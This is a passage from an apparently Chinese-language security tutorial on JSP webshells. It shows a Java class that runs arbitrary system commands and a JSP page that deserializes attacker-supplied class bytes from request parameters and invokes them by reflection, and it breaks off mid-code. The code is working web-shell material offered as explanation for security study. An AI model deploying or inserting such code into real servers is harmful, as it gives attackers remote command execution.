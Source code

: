效果：

![image-20191206112613210](../../images/image-20191206112613210.png)

3. **反序列化**

反序列化也拥有可以将数据转换为类对象的能力，因此我们也可以使用反序列化来进行任意代码执行。

思路依旧是通过参数获取字符串，并反序列化成类对象，最终通过反射调用。

java代码如下：

```java
package org.su18;

import java.io.*;

public class Se1 implements Serializable {

	public static String cmd(String w) throws IOException {
		Process       a = Runtime.getRuntime().exec(w);
		InputStream   b = a.getInputStream();
		StringBuilder c = new StringBuilder();
		int           d;
		while ((d = b.read()) != -1) {
			c.append((char) d);
		}
		return c.toString();
	}
}

```

JSP代码如下：

```jsp
<%@ page import="java.io.ObjectInputStream" %>
<%@ page import="java.io.ByteArrayInputStream" %>
<%@ page import="java.lang.reflect.InvocationTargetException" %>
<%

    String clazz = request.getParameter("class");
    String method = request.getParameter("method");
    String parm = request.getParameter("parm");

    byte[] classByte = new sun.misc.BASE64Decoder().decodeBuffer(clazz);

    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(classByte));

    try {
        Object myObject = ois.readObject();
        Object result   = null;
        try {
            result = myObject.getClass().getMethod(method, String.class).invoke(null, parm);
```